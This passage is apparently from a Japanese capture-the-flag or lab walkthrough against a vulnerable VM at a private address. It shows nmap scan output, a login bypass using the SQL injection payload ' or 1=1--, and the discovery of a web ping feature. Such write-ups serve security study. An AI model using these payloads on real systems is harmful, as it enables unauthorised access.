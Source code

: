 ```
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.30
Uptime guess: 0.023 days (since Thu Mar 26 21:04:05 2020)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=200 (Good luck!)
IP ID Sequence Generation: All zeros

Host script results:
|_clock-skew: 3h59m57s

TRACEROUTE
HOP RTT     ADDRESS
1   0.38 ms 192.168.11.13

NSE: Script Post-scanning.
Initiating NSE at 21:36
Completed NSE at 21:36, 0.00s elapsed
Initiating NSE at 21:36
Completed NSE at 21:36, 0.00s elapsed
Initiating NSE at 21:36
Completed NSE at 21:36, 0.00s elapsed
Read data files from: /usr/local/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.70 seconds
           Raw packets sent: 1020 (45.626KB) | Rcvd: 1016 (41.362KB)
```

## 3, 443,80ポートが空いているのでブラウザからアクセスをしてみる
- http://192.168.11.13
ログイン画面が確認出来た

## 4, SQLインジェクションでログインを試みる
```
Username: ' or 1=1--
Password ' OR 1=1--
```
ログイン成功

## 5, [Ping a Machine on the Network] という機能が提供されている
- 適当にIPを打ち込んでみる 127.0.0.1
```
127.0.0.1
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=0 ttl=64 time=0.030 ms
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.020 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.144 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2010ms
rtt min/avg/max/mdev = 0.020/0.064/0.144/0.057 ms, pipe 2
```
http://192.168.11.13/pingit.php
が新たに開き、pingの標準入力結果が表示されている。
